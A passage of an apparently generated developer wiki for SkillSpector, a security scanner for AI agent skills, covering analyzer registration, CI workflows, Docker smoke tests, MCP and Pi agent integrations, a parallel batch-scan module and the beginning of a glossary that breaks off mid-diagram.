Analyzer nodes participate in the audit subsystem by recording inspection metrics and outcomes. When implementing custom nodes outside the standard runners, nodes should emit `InspectionLedgerEvent` records using helpers from `inspection_ledger.py` to document execution status, finding counts, and completeness metrics [src/skillspector/inspection_ledger.py:37-43]().

Sources: [src/skillspector/inspection_ledger.py:37-43]()

---

## 4. Registration and Configuration

Once the analyzer logic is implemented, it must be registered in the central analyzer registry so that `create_graph()` discovers it and incorporates it into the LangGraph workflow.

### Registry Updates
Modify `src/skillspector/nodes/analyzers/__init__.py` to include the new node:

1.  **Dynamic Discovery**: The module uses `pkgutil.iter_modules()` to automatically load modules in the `analyzers` package [src/skillspector/nodes/analyzers/__init__.py:33-61]().
2.  **Attribute Requirements**: Each analyzer module must define `ANALYZER_ID` (a unique string) and `node` (a callable taking `SkillspectorState` and returning `AnalyzerNodeResponse`) [src/skillspector/nodes/analyzers/__init__.py:52-57]().
3.  **Registry Mappings**: Discovered IDs and nodes are appended to `ANALYZER_NODE_IDS`, `ANALYZER_NODES`, and `ANALYZER_MODULES` [src/skillspector/nodes/analyzers/__init__.py:55-59]().

Sources: [src/skillspector/nodes/analyzers/__init__.py:16-63]()

---

## 5. Testing the New Analyzer

Every analyzer requires corresponding test suites to verify registry alignment and correct execution logic.

1.  **Registry Alignment**: Add the new ID to `EXPECTED_ANALYZER_NODE_IDS` in `tests/nodes/analyzers/test_registry.py` to verify that `ANALYZER_NODE_IDS` and `ANALYZER_NODES` match the system specification [tests/nodes/analyzers/test_registry.py:24-52]().
2.  **Node Test**: Create a node-specific test file under `tests/nodes/analyzers/` using `SkillspectorState` fixtures to verify that the node correctly inspects `file_cache` and returns expected findings [tests/nodes/analyzers/test_static_runner_filtering.py:32-35]().

Sources: [tests/nodes/analyzers/test_registry.py:24-52](), [tests/nodes/analyzers/test_static_runner_filtering.py:32-35]()

---

# Page: Code Quality and CI

# Code Quality and CI

<details>
<summary>Relevant source files</summary>

The following files were used as context for generating this wiki page:

- [.dockerignore](.dockerignore)
- [.github/workflows/ci.yml](.github/workflows/ci.yml)
- [.github/workflows/release.yml](.github/workflows/release.yml)
- [.github/workflows/scorecard.yml](.github/workflows/scorecard.yml)
- [.github/workflows/update-pr-branches.yml](.github/workflows/update-pr-branches.yml)
- [.gitignore](.gitignore)
- [Dockerfile](Dockerfile)
- [Makefile](Makefile)
- [SECURITY.md](SECURITY.md)
- [docs/B.3.2-mcp-tool-poisoning.md](docs/B.3.2-mcp-tool-poisoning.md)
- [docs/SC4-osv-live-vulnerability-lookups.md](docs/SC4-osv-live-vulnerability-lookups.md)
- [docs/release/skillspector-2.5.1.md](docs/release/skillspector-2.5.1.md)
- [scripts/release/public/create_github_release.py](scripts/release/public/create_github_release.py)
- [src/skillspector/__init__.py](src/skillspector/__init__.py)
- [tests/docker/smoke.sh](tests/docker/smoke.sh)
- [tests/integration/__init__.py](tests/integration/__init__.py)
- [tests/unit/__init__.py](tests/unit/__init__.py)
- [tests/unit/test_create_github_release.py](tests/unit/test_create_github_release.py)
- [tests/unit/test_github_release_workflow.py](tests/unit/test_github_release_workflow.py)

</details>


This page details the mechanisms SkillSpector employs to maintain high code standards and ensure reliability through automated testing, linting, supply-chain scorecard analysis, release automation, containerized smoke testing, and security reporting policies.

## Quality Enforcement Architecture

SkillSpector enforces quality at multiple layers: local development via `Makefile` targets, pre-commit/lint checks, automated GitHub Actions CI pipelines, OSSF Scorecard supply-chain scanning, and containerized Docker smoke tests.

### Tooling and Configuration
The project centralizes its quality and linting configuration in `pyproject.toml`.

*   **Linter and Formatter**: `ruff` is the primary static analysis and formatting engine [pyproject.toml:87-94](). It is configured with a line length of 100 and targets Python 3.12 [pyproject.toml:88-89]().
*   **Rule Sets**: Selected rules include Error (`E`), Pyflakes (`F`), Warning (`W`), Isort (`I`), PEP8 Naming (`N`), PyUpgrade (`UP`), Bugbear (`B`), and Comprehensions (`C4`) [pyproject.toml:92]().
*   **Type Checking**: `mypy` is configured for strict type enforcement (`disallow_untyped_defs = true`) [pyproject.toml:95-99]().
*   **Build System**: Uses `hatchling` as the build backend [pyproject.toml:1-3]().

### CI/CD Data Flow

The following diagram illustrates how changes progress through local validation and GitHub Actions workflows, linking pipeline stages to their respective CI job and script entities.

**Code Quality and CI Pipeline Flow**
```mermaid
graph TD
    subgraph "Local_Environment"
        [Developer] -- "git commit -s" --> [DCO_Check]
        [make_format] -- "ruff format" --> [Code_Formatting]
        [make_lint] -- "ruff check" --> [Static_Analysis]
    end
    [Static_Analysis] -- "git push" --> [GitHub_Actions]
    subgraph "CI_Environment"
        [ci_yml] -- "uv sync" --> [changes]
        [changes] --> |"docker=true"| [docker_smoke]
        [ci_yml] -- "ruff check" --> [lint]
        [lint] --> [test_unit]
        [test_unit] -- "pytest -m not integration" --> [Coverage_Reporting]
    end
    subgraph "Supply_Chain_and_Release"
        [scorecard_yml] -- "OSSF Scorecard" --> [security_events]
        [release_yml] -- "release:publish label" --> [create_github_release_py]
    end
```
**Sources:** [.github/workflows/ci.yml:40-92](), [.github/workflows/scorecard.yml:21-78](), [.github/workflows/release.yml:25-58](), [Makefile:109-128]()

---

## Makefile Targets

The `Makefile` serves as the entry point for quality tasks, abstracting complex commands into straightforward targets while preferring `uv` for dependency management [Makefile:3-5]().

| Target | Command | Purpose |
| :--- | :--- | :--- |
| `make lint` | `ruff check src/ tests/` | Runs static code analysis [Makefile:109-111](). |
| `make lint-fix` | `ruff check --fix src/ tests/` | Automatically resolves fixable lint violations [Makefile:114-116](). |
| `make format` | `ruff format src/ tests/` | Enforces code formatting [Makefile:119-122](). |
| `make format-check` | `ruff format --check src/ tests/` | Checks formatting without modifying files [Makefile:125-127](). |
| `make test-unit` | `pytest -m "not integration and not provider" tests/` | Executes fast unit tests [Makefile:63-64](). |
| `make test-ci` | `pytest -m "not integration..." --cov-report=xml` | Runs tests and generates Cobertura XML for CI [Makefile:105-106](). |
| `make docker-smoke` | `tests/docker/smoke.sh` | Builds Docker image and runs smoke tests [Makefile:153-154](). |

**Sources:** [Makefile:1-154]()

---

## GitHub Actions Workflows

SkillSpector defines several dedicated GitHub Actions workflows for continuous integration, supply-chain monitoring, branch maintenance, and releases.

### 1. Main CI Workflow (`ci.yml`)
Defined in [.github/workflows/ci.yml](), `ci.yml` runs on pull requests and pushes to `main` [.github/workflows/ci.yml:18-22]().
*   **`changes` job**: Inspects git diffs to determine if Docker-related files changed, conditionally enabling the Docker smoke tests [.github/workflows/ci.yml:40-60]().
*   **`lint` job**: Sets up `uv`, installs dev dependencies, and runs `ruff check` and `ruff format --check` [.github/workflows/ci.yml:61-76]().
*   **`test-unit` job**: Runs unit tests and verifies CLI version execution [.github/workflows/ci.yml:77-92]().
*   **`docker-smoke` job**: Builds the container and executes `tests/docker/smoke.sh` when changes require it [.github/workflows/ci.yml:93-111]().
*   **`dco` job**: Verifies that every commit in a pull request contains a valid `Signed-off-by:` developer certificate of origin trailer, exempting authorized GitHub merge commits [.github/workflows/ci.yml:112-151]().

### 2. Supply-Chain Security Scorecard (`scorecard.yml`)
Defined in [.github/workflows/scorecard.yml](), this workflow runs via schedule (Tuesdays) and on push to `main` to perform OSSF Scorecard supply-chain security analysis [.github/workflows/scorecard.yml:5-15](). It publishes SARIF results and uploads `results.sarif` artifacts [.github/workflows/scorecard.yml:41-72]().

### 3. PR Branch Maintenance (`update-pr-branches.yml`)
Defined in [.github/workflows/update-pr-branches.yml](), this workflow automatically merges `main` into eligible open pull request branches using GitHub API calls, handling forks and 422 conflict responses gracefully [.github/workflows/update-pr-branches.yml:16-101]().

### 4. Release Publishing Workflow (`release.yml`)
Defined in [.github/workflows/release.yml](), this workflow triggers when a pull request targeting `main` is closed, merged (`github.event.pull_request.merged == true`), and labeled with `release:publish` [.github/workflows/release.yml:6-28]().
*   It checks out the merge commit SHA [.github/workflows/release.yml:33-35]().
*   Installs locked build tooling via `uv sync --locked --extra dev --no-install-project` [.github/workflows/release.yml:36-45]().
*   Builds and validates wheel and source distributions using `python -m build` and `twine check` [.github/workflows/release.yml:46-49]().
*   Invokes `scripts/release/public/create_github_release.py` to tag the release, create release notes from `docs/release/skillspector-<version>.md`, and attach distribution assets [.github/workflows/release.yml:50-58](), [scripts/release/public/create_github_release.py:29-38]().

**Sources:** [.github/workflows/ci.yml:1-151](), [.github/workflows/scorecard.yml:1-78](), [.github/workflows/update-pr-branches.yml:1-101](), [.github/workflows/release.yml:1-58](), [scripts/release/public/create_github_release.py:1-190]()

---

## Dockerfile and Docker Smoke Tests

### Dockerfile Architecture
The multi-stage `Dockerfile` uses `python:3.12-slim-bookworm` [Dockerfile:1, 9]().
*   **Builder Stage**: Copies `pyproject.toml`, `README.md`, and `src/`, creates a virtual environment, and installs SkillSpector [Dockerfile:1-7]().
*   **Runtime Stage**: Installs `git` and `ca-certificates`, copies the `.venv` from the builder stage, sets the working directory to `/scan`, and defaults the entrypoint to `skillspector` [Dockerfile:9-20]().

### Smoke Testing (`tests/docker/smoke.sh`)
The smoke test script validates container execution:
1.  Verifies `skillspector --version` and `git --version` inside the container [tests/docker/smoke.sh:57-58]().
2.  Scans `tests/fixtures/safe_skill` locally and validates the resulting JSON report format [tests/docker/smoke.sh:60-62]().
3.  Performs a remote scan against a GitHub repository URL (`Hello-World`) with `--no-llm --format json` [tests/docker/smoke.sh:36-44]().
4.  Asserts JSON report validity and checks for expected components using Python inline snippets [tests/docker/smoke.sh:17-34]().

**Sources:** [Dockerfile:1-20](), [tests/docker/smoke.sh:1-64]()

---

## Coverage and Security Boundaries

### Coverage Reporting
*   **Local Coverage**: `make test-cov` runs pytest with `--cov=src/skillspector` and generates terminal and HTML reports [Makefile:101-102]().
*   **CI Coverage**: `make test-ci` produces Cobertura XML reports for CI integration [Makefile:105-106]().

### Security Boundaries (`.gitignore` and `.dockerignore`)
The project maintains strict boundary controls to prevent leaking credentials, local environment caches, or IDE directories:
*   **Build Artifacts**: Excludes `dist/`, `build/`, and `*.egg-info` [pyproject.toml:81-82]().
*   **Runtime and Linter Caches**: Excludes `.pytest_cache`, `.ruff_cache`, and `.mypy_cache`, which are cleaned via `make clean` [Makefile:130-142]().
*   **Local Configuration**: Excludes `.env`, virtual environments, and local workspace directories.

**Sources:** [Makefile:101-107](), [Makefile:130-142](), [pyproject.toml:81-85](), [pyproject.toml:101-104]()

---

## Security Reporting Policy (`SECURITY.md`)

NVIDIA maintains a coordinated vulnerability disclosure policy outlined in `SECURITY.md`.
*   **Reporting Channel**: Security issues should **not** be reported publicly via GitHub issues or pull requests [SECURITY.md:5]().
*   **Submission Methods**: Vulnerabilities must be submitted via the [Security Vulnerability Submission Form](https://www.nvidia.com/object/submit-security-vulnerability.html) or emailed to `psirt@nvidia.com` (using NVIDIA's public PGP key) [SECURITY.md:11-13]().
*   **Required Information**: Reports should include the product name/version, vulnerability type, reproduction instructions, proof-of-concept/exploit code, and potential impact [SECURITY.md:14-19]().

**Sources:** [SECURITY.md:1-25]()

---

# Page: MCP Server and Pi Extension

# MCP Server and Pi Extension

<details>
<summary>Relevant source files</summary>

The following files were used as context for generating this wiki page:

- [docs/INFERENCE_USAGE.md](docs/INFERENCE_USAGE.md)
- [docs/PI_EXTENSION.md](docs/PI_EXTENSION.md)
- [docs/release/skillspector-2.9.0.md](docs/release/skillspector-2.9.0.md)
- [docs/release/skillspector-2.9.1.md](docs/release/skillspector-2.9.1.md)
- [extensions/skillspector.ts](extensions/skillspector.ts)
- [package.json](package.json)
- [skills/skill-inspector/SKILL.md](skills/skill-inspector/SKILL.md)
- [src/skillspector/mcp_server.py](src/skillspector/mcp_server.py)
- [tests/unit/test_mcp_server.py](tests/unit/test_mcp_server.py)

</details>


## Purpose and Scope

This page documents the integration of SkillSpector into agentic runtimes via the **Model Context Protocol (MCP)** server (`src/skillspector/mcp_server.py`) and the **Pi coding-agent extension** (`extensions/skillspector.ts`). These subsystems transform SkillSpector from an out-of-band audit utility into a runtime security guardrail, allowing LLM agents to automatically vet skills, packages, and repositories before installation.

Sources: [src/skillspector/mcp_server.py:16-26](), [extensions/skillspector.ts:1-142]()

---

## MCP Server Integration

The MCP server exposes SkillSpector scanning capabilities as a structured tool (`scan_skill`) to any MCP-compliant agent client (such as Claude Code, Codex CLI, or custom agent runtimes) [src/skillspector/mcp_server.py:16-26]().

### Core Logic and `run_scan()`

The primary entry point for the MCP tool is `run_scan()`, which wraps the LangGraph execution pipeline without depending directly on the optional `mcp` SDK package [src/skillspector/mcp_server.py:22-26]().

| Feature | Implementation Detail | Code Pointer |
| :--- | :--- | :--- |
| **Transport Security** | Rejects local targets and local YARA rule directories when HTTP transports disable local target access (`allow_local_targets=False`) to prevent path traversal. | [src/skillspector/mcp_server.py:102-106]() |
| **Install Gating** | Computes `safe_to_install` by checking if `risk_score <= RISK_THRESHOLD`, `execution_successful` is true, and there are no entirely uninspected files or incomplete coverage. | [src/skillspector/mcp_server.py:146-151]() |
| **LLM Accounting** | Explicitly separates `llm_requested`, `llm_available`, and `llm_used` to maintain transparency when credentials are absent. | [src/skillspector/mcp_server.py:162-166]() |
| **Cleanup** | Invokes `cleanup_result(result)` in a `finally` block to purge temporary inspection assets. | [src/skillspector/mcp_server.py:170-171]() |

Sources: [src/skillspector/mcp_server.py:49-172](), [src/skillspector/constants.py:30-30]()

### Transports and Server Building

`build_server()` returns a configured `FastMCP` server instance [src/skillspector/mcp_server.py:174-183](). It supports:
- **stdio transport**: Standard input/output communication for local agent subprocesses.
- **HTTP / SSE transport**: Starlette-based server deployments for remote or multi-agent topologies [src/skillspector/mcp_server.py:180-183]().

Sources: [src/skillspector/mcp_server.py:174-185]()

---

## Pi Coding-Agent Extension

The Pi extension (`extensions/skillspector.ts`) packages SkillSpector as a native tool (`skillspector_scan`) for the `@earendil-works/pi-coding-agent` runtime [extensions/skillspector.ts:83-141]().

### Tool Schema and Execution

The extension defines a strict schema using `typebox` (`scanSchema`) and invokes the local `skillspector` binary via `pi.exec()` [extensions/skillspector.ts:8-27](), [extensions/skillspector.ts:104-109]().

```mermaid
graph TD
    subgraph "Pi Agent Execution"
      A["Pi Agent Runtime"] -- "skillspector_scan tool call" --> B["extensions/skillspector.ts: execute()"]
      B -- "Resolve binary" --> C["extensions/skillspector.ts: findSkillSpectorBin()"]
      B -- "Build CLI arguments" --> D["extensions/skillspector.ts: buildScanArgs()"]
      B -- "Execute subprocess" --> E["cli.py: skillspector scan"]
      E -- "Scrub & Truncate" --> F["extensions/skillspector.ts: redactSecrets()"]
      F -- "Return Result" --> A
    end
```

Sources: [extensions/skillspector.ts:59-140](), [docs/PI_EXTENSION.md:3-50]()

---

## Bundled Skill Inspector (`skills/skill-inspector/SKILL.md`)

SkillSpector ships with a specialized agent skill guide (`skills/skill-inspector/SKILL.md`) that trains agents to conduct two-tier reviews combining deterministic static evidence with semantic agent reasoning [skills/skill-inspector/SKILL.md:1-16]().

- **Review Workflow**: Resolves targets, executes `skillspector scan ... --format json`, parses metrics, inspects source files (`SKILL.md`, dependencies, MCP manifests), and applies semantic evaluation criteria [skills/skill-inspector/SKILL.md:31-83]().
- **Rubric & Scoring**: Maps numeric scores to default postures (`APPROVE`, `CAUTION`, `REJECT`), establishing strict barriers against high/critical vulnerabilities regardless of score [skills/skill-inspector/SKILL.md:84-102]().

Sources: [skills/skill-inspector/SKILL.md:1-161]()

---

## Data Flow: Agent Space to Code Space

### MCP Tool Execution Flow

This diagram traces how an agent tool call enters the MCP server layer and executes the LangGraph pipeline.

```mermaid
graph TD
    subgraph "Natural Language Space (Agent)"
        A["Agent: 'Evaluate target safety'"] -- "mcp.call_tool('scan_skill')" --> B["FastMCP Protocol Handler"]
    end

    subgraph "Code Entity Space (MCP Server)"
        B -- "JSON RPC dispatch" --> C["mcp_server.py: scan_skill()"]
        C -- "Parameters" --> D["mcp_server.py: run_scan()"]
        D -- "Check LLM state" --> E["llm_utils.py: is_llm_available()"]
        D -- "Invoke pipeline" --> F["graph.py: graph.ainvoke()"]
        F -- "Compute safe_to_install" --> G["mcp_server.py: safe_to_install verdict"]
    end

    G -- "JSON Verdict Payload" --> B
```

Sources: [src/skillspector/mcp_server.py:70-168](), [src/skillspector/llm_utils.py:22-35]()

### Pi Extension Tool Flow

This diagram illustrates how Pi tool calls map to local CLI executions and subprocess management.

```mermaid
graph TD
    subgraph "Natural Language Space (Pi Agent)"
        P1["Pi Agent: 'Use skillspector_scan'"] -- "Tool Request" --> P2["extensions/skillspector.ts: execute()"]
    end

    subgraph "Code Entity Space (Pi Extension & CLI)"
        P2 -- "Resolve path & binary" --> P3["extensions/skillspector.ts: findSkillSpectorBin()"]
        P3 -- "Spawn process" --> P4["cli.py: Typer app (scan)"]
        P4 -- "Initialize state" --> P5["cli.py: _scan_state()"]
        P5 -- "Run graph" --> P6["graph.py: graph.invoke()"]
        P6 -- "Output formatting" --> P7["extensions/skillspector.ts: redactSecrets()"]
    end
```

Sources: [extensions/skillspector.ts:59-140](), [src/skillspector/cli.py:121-170]()

---

# Page: Batch Scan Contrib Module

# Batch Scan Contrib Module

<details>
<summary>Relevant source files</summary>

The following files were used as context for generating this wiki page:

- [contrib/batch_scan/.env.example](contrib/batch_scan/.env.example)
- [contrib/batch_scan/CONTRIBUTING.md](contrib/batch_scan/CONTRIBUTING.md)
- [contrib/batch_scan/__init__.py](contrib/batch_scan/__init__.py)
- [contrib/batch_scan/annotation.py](contrib/batch_scan/annotation.py)
- [contrib/batch_scan/api_pool.py](contrib/batch_scan/api_pool.py)
- [contrib/batch_scan/batch_scan.py](contrib/batch_scan/batch_scan.py)
- [contrib/batch_scan/detection.py](contrib/batch_scan/detection.py)
- [contrib/batch_scan/discovery.py](contrib/batch_scan/discovery.py)
- [contrib/batch_scan/docs/DESIGN.md](contrib/batch_scan/docs/DESIGN.md)
- [contrib/batch_scan/docs/README.md](contrib/batch_scan/docs/README.md)
- [contrib/batch_scan/reports.py](contrib/batch_scan/reports.py)
- [contrib/batch_scan/runner.py](contrib/batch_scan/runner.py)
- [contrib/batch_scan/tests/test_inspection_reporting.py](contrib/batch_scan/tests/test_inspection_reporting.py)
- [contrib/batch_scan/tests/test_monkeypatch_fragility.py](contrib/batch_scan/tests/test_monkeypatch_fragility.py)
- [contrib/batch_scan/tests/tests-pro/test_api_pool.py](contrib/batch_scan/tests/tests-pro/test_api_pool.py)
- [docs/release/skillspector-2.5.0.md](docs/release/skillspector-2.5.0.md)
- [docs/release/skillspector-2.6.0.md](docs/release/skillspector-2.6.0.md)
- [docs/release/skillspector-2.7.0.md](docs/release/skillspector-2.7.0.md)
- [docs/release/skillspector-2.7.2.md](docs/release/skillspector-2.7.2.md)

</details>


The `contrib/batch_scan` module is a high-performance extension for SkillSpector designed to scan large directories of AI agent skills in parallel [contrib/batch_scan/batch_scan.py:16-21](). It introduces a three-layer concurrency model, a robust API key load-balancer, and targeted multilingual support to handle non-English skills where static pattern matching may lose recall [contrib/batch_scan/docs/DESIGN.md:39-45]().

Sources: [contrib/batch_scan/batch_scan.py:16-21](), [contrib/batch_scan/docs/DESIGN.md:39-45]()

## Concurrency Architecture

SkillSpector Batch Scan utilizes a three-layer concurrency model to maximize throughput while maintaining stability [contrib/batch_scan/batch_scan.py:23-34]().

### Three-Layer Concurrency Model

| Layer | Component | Implementation | Responsibility |
| :--- | :--- | :--- | :--- |
| **Layer 3** | `batch_scan.py` | `ThreadPoolExecutor` | Parallelizes scanning of independent skill directories [contrib/batch_scan/batch_scan.py:34-34](). |
| **Layer 2** | `LLMAnalyzerBase` | `asyncio.Semaphore(10)` | Limits concurrent LLM requests per analyzer to prevent local resource exhaustion [contrib/batch_scan/batch_scan.py:32-33](). |
| **Layer 1** | `graph.py` | LangGraph Fan-out | Executes up to 20 analyzer nodes in parallel for a single skill [contrib/batch_scan/batch_scan.py:31-31](). |

The `ThreadPoolExecutor` manages a pool of workers (default 4, configurable via `--workers`) [contrib/batch_scan/batch_scan.py:27-28](). Each worker executes the `run_one` function, which invokes the standard LangGraph pipeline [contrib/batch_scan/runner.py:75-76]().

Title: Batch Scan Execution Flow
```mermaid
graph TD
    CLI["CLI '--workers N'"] --> Main["batch_scan.py :: main()"]
    Main --> Discover["discovery.py :: discover_skills()"]
    Main --> Pool["api_pool.py :: ApiKeyPool"]
    Main --> TPE["ThreadPoolExecutor"]
    
    subgraph "Worker Threads"
    TPE --> ThreadA["Thread A"]
    TPE --> ThreadB["Thread B"]
    end
    
    ThreadA --> RunOneA["runner.py :: run_one()"]
    RunOneA --> InvokeA["skillspector.graph.graph.invoke()"]
    InvokeA --> FanOutA["20 Parallel Analyzers"]
    
    ThreadB --> RunOneB["runner.py :: run_one()"]
    RunOneB --> InvokeB["skillspector.graph.graph.invoke()"]
    
    RunOneA --> GapFill["gap_fill.py :: run_gap_fill()"]
    GapFill --> Result["reports.py :: format_results()"]
```
Sources: [contrib/batch_scan/batch_scan.py:16-46](), [contrib/batch_scan/docs/DESIGN.md:9-24](), [contrib/batch_scan/docs/DESIGN.md:39-45](), [contrib/batch_scan/runner.py:75-76]()

## API Key Pool and Rate-Limit Protection

To support high-concurrency LLM scans without hitting provider rate limits, the module implements an `ApiKeyPool` [contrib/batch_scan/api_pool.py:16-22]().

### Least-Loaded Scheduling
The pool distributes requests across multiple keys using a least-loaded scheduler [contrib/batch_scan/api_pool.py:19-20](). Each `ApiKey` object tracks its own `active_requests` and `max_concurrent` slots (default 5) [contrib/batch_scan/api_pool.py:80-108](). The `acquire()` method blocks only when all non-rate-limited keys are at capacity [contrib/batch_scan/api_pool.py:165-191]().

### Backoff and Recovery
When an LLM call returns an HTTP 429 (Rate Limit), the key is marked as `rate_limited` and removed from rotation [contrib/batch_scan/api_pool.py:214-228]().
* **Backoff Calculation:** $30 \times 2^n$ seconds, where $n$ is the number of consecutive failures, capped at 300 seconds [contrib/batch_scan/api_pool.py:98-99]().
* **Recovery:** The pool automatically restores keys once their `rate_limited_until` timestamp has passed [contrib/batch_scan/api_pool.py:170-171]().

### Dual-Patch Wiring
The `ApiKeyPool` is injected into SkillSpector's core using a dual-patch mechanism in `runner.py` [contrib/batch_scan/docs/DESIGN.md:150-158](). It patches:
1. `skillspector.llm_utils.get_chat_model` [contrib/batch_scan/runner.py:110-110]()
2. `skillspector.llm_analyzer_base.get_chat_model` [contrib/batch_scan/runner.py:111-111]()

This ensures that graph-internal analyzers (SSD, SDI, SQP, Meta-Analyzer) and the `GapFillAnalyzer` all share the same rate-limiting logic [contrib/batch_scan/docs/DESIGN.md:155-158]().

Sources: [contrib/batch_scan/api_pool.py:16-150](), [contrib/batch_scan/docs/DESIGN.md:135-158](), [contrib/batch_scan/runner.py:70-96]()

## Multilingual Support and Gap-Fill

The batch scanner provides enhanced detection and analysis for non-English skills (Chinese, Japanese, Korean) [contrib/batch_scan/docs/DESIGN.md:109-110]().

### Language Detection
`detect_skill_language` uses a Unicode script-ratio heuristic [contrib/batch_scan/detection.py:16-20](). It calculates the ratio of CJK, Hiragana/Katakana, or Hangul characters relative to total alphabetic characters [contrib/batch_scan/docs/DESIGN.md:111-119]().
* **zh:** $\ge 10\%$ CJK Unified [contrib/batch_scan/docs/DESIGN.md:115-115]().
* **ja:** $\ge 5\%$ Hiragana + Katakana [contrib/batch_scan/docs/DESIGN.md:116-116]().
* **ko:** $\ge 10\%$ Hangul Syllables [contrib/batch_scan/docs/DESIGN.md:117-117]().

### Gap-Fill Analysis
Static pattern matching (regex) loses recall on non-English text. The `run_gap_fill` function invokes a targeted LLM pass for 8 vulnerability categories that lack semantic analyzer equivalents [contrib/batch_scan/docs/DESIGN.md:124-133]():
* **Harmful Content:** P5 [contrib/batch_scan/docs/DESIGN.md:129-129]().
* **System Prompt Leakage:** P6, P7, P8 [contrib/batch_scan/docs/DESIGN.md:129-129]().
* **Memory Poisoning:** MP1, MP2, MP3 [contrib/batch_scan/docs/DESIGN.md:130-130]().
* **Rogue Agent:** RA1, RA2 [contrib/batch_scan/docs/DESIGN.md:130-130]().

Sources: [contrib/batch_scan/detection.py:16-40](), [contrib/batch_scan/gap_fill.py:16-45](), [contrib/batch_scan/docs/DESIGN.md:109-134]()

## DeepSeek Compatibility Patches

Because some models (like DeepSeek) do not support the OpenAI `response_format` (structured output) parameter, the module includes a `deepseek_compat` context manager [contrib/batch_scan/runner.py:307-310]().

### Patch Mechanism
The `deepseek_compat()` manager applies seven targeted monkey-patches to SkillSpector internals [contrib/batch_scan/docs/DESIGN.md:63-71]():
1. **Disable Structured Output:** Sets `self.response_schema = None` on `LLMAnalyzerBase` instances to force raw text responses [contrib/batch_scan/docs/DESIGN.md:65-65]().
2. **Manual Parsing:** Patches `parse_response` in `LLMAnalyzerBase` and `LLMMetaAnalyzer` to manually parse JSON strings with Pydantic validation [contrib/batch_scan/docs/DESIGN.md:66-67]().
3. **Prompt Enhancement:** Appends "Respond in JSON format" instructions to all LLM prompts [contrib/batch_scan/docs/DESIGN.md:68-69]().
4. **Httpx Hardening:** Injects an 8s connection / 30s read timeout into `ChatOpenAI` to prevent hung threads [contrib/batch_scan/docs/DESIGN.md:70-70]().

Title: DeepSeek Patch Interaction
```mermaid
graph LR
    subgraph "SkillSpector Core"
    Base["skillspector.llm_analyzer_base.LLMAnalyzerBase"]
    Meta["skillspector.nodes.meta_analyzer.LLMMetaAnalyzer"]
    Utils["skillspector.llm_utils.get_chat_model"]
    end
    
    subgraph "Batch Scan Patches"
    P1["'_patched_base_init()' (self.response_schema=None)"]
    P2["'_patched_base_parse()' (manual json.loads)"]
    P3["'_patched_base_build_prompt()' (JSON instructions)"]
    P4["'_patched_chat_openai_init()' (httpx.Timeout)"]
    end
    
    Base -- "uses" --> P1
    Base -- "uses" --> P2
    Base -- "uses" --> P3
    Meta -- "uses" --> P2
    Meta -- "uses" --> P3
    Utils -- "uses" --> P4
```
Sources: [contrib/batch_scan/runner.py:307-450](), [contrib/batch_scan/docs/DESIGN.md:57-108](), [contrib/batch_scan/tests/test_monkeypatch_fragility.py:16-32]()

## CLI Usage and Output

The module is invoked as a Python module: `python -m contrib.batch_scan.batch_scan` [contrib/batch_scan/batch_scan.py:43-46]().

### CLI Flags
* `--workers N`: Number of parallel skill scans (default 4) [contrib/batch_scan/batch_scan.py:210-210]().
* `--lang {auto,en,zh,ja,ko}`: Force a language or use auto-detection [contrib/batch_scan/batch_scan.py:214-214]().
* `--no-llm`: Disable all LLM-based analyzers and gap-fill [contrib/batch_scan/batch_scan.py:219-219]().
* `-f, --format {terminal,json,markdown}`: Select output format [contrib/batch_scan/batch_scan.py:223-223]().
* `-o, --output FILE`: Write the aggregated report to a file [contrib/batch_scan/batch_scan.py:228-228]().

### Aggregated Reports
The `reports.py` module aggregates results from all threads into a single report, sorted by risk score [contrib/batch_scan/reports.py:33-39](). It preserves all `analysis_completeness` ledger exceptions from child scans, ensuring that failed file reads or analyzer timeouts are visible in the batch summary [contrib/batch_scan/reports.py:48-66]().

Sources: [contrib/batch_scan/batch_scan.py:181-250](), [contrib/batch_scan/reports.py:16-100](), [contrib/batch_scan/tests/test_inspection_reporting.py:41-66]()

---

# Page: Glossary

# Glossary

<details>
<summary>Relevant source files</summary>

The following files were used as context for generating this wiki page:

- [README.md](README.md)
- [docs/DEVELOPMENT.md](docs/DEVELOPMENT.md)
- [src/skillspector/artifacts.py](src/skillspector/artifacts.py)
- [src/skillspector/cleanup.py](src/skillspector/cleanup.py)
- [src/skillspector/constants.py](src/skillspector/constants.py)
- [src/skillspector/nodes/analyzers/artifact_integrity.py](src/skillspector/nodes/analyzers/artifact_integrity.py)
- [src/skillspector/nodes/report.py](src/skillspector/nodes/report.py)
- [src/skillspector/providers/__init__.py](src/skillspector/providers/__init__.py)
- [src/skillspector/sarif_models.py](src/skillspector/sarif_models.py)
- [src/skillspector/state.py](src/skillspector/state.py)
- [tests/nodes/analyzers/test_artifact_integrity_bounds.py](tests/nodes/analyzers/test_artifact_integrity_bounds.py)
- [tests/nodes/analyzers/test_sc8_shipped_bytecode.py](tests/nodes/analyzers/test_sc8_shipped_bytecode.py)
- [tests/nodes/test_report.py](tests/nodes/test_report.py)
- [tests/nodes/test_sarif_rules_and_empty_findings.py](tests/nodes/test_sarif_rules_and_empty_findings.py)
- [tests/nodes/test_security_end_to_end.py](tests/nodes/test_security_end_to_end.py)
- [tests/nodes/test_security_remediation.py](tests/nodes/test_security_remediation.py)
- [tests/unit/test_constants.py](tests/unit/test_constants.py)

</details>


This glossary provides technical definitions for codebase-specific terms, rule identifier families (`P`, `E`, `PE`, `AS`, `SC`, `TR`, `OH`, `EA`, `MP`, `TM`, `AE`, `AST`, `TT`, `YR`, `LP`, `TP`, `SSD`, `SDI`, `SQP`), abbreviations, and core domain concepts within SkillSpector. It serves as a comprehensive reference for onboarding engineers to understand the mapping between high-level security architecture and its concrete implementation in the codebase.

## System Concepts and Code Entities

The following diagrams bridge natural language concepts to their concrete Python implementations across the repository.

### Mapping: Natural Language to Code Space (Core Pipeline)
```mermaid
graph TD
    subgraph "Natural Language Space"
        A["Analysis Pipeline"]
        B["Security Finding"]
        C["LLM Provider"]
        D["Skill Manifest"]
        E["Vulnerability Rule"]
        F["False Positive Baseline"]
    end

    subgraph "Code Entity Space"
        A1["graph.py: create_graph()"]
        B1["models.py: Finding"]
        C1["providers/base.py: ModelMetadataProvider"]
        D1["state.py: SkillspectorState['manifest']"]
        E1["models.py: AnalyzerPlugin.analyze()"]
        F1["suppression.py: Baseline"]
    end

    A --- A1
    B --- B1
    C --- C1
    D --- D1
    E --- E1
    F --- F1
```
**Sources:** [src/skillspector/graph.py:91](), [src/skillspector/models.py:42-42](), [src/skillspector/state.py:72-100](), [src/skillspector/suppression.py:64-64]()

### Mapping: Domain Concepts to Code Space
```mermaid
graph TD
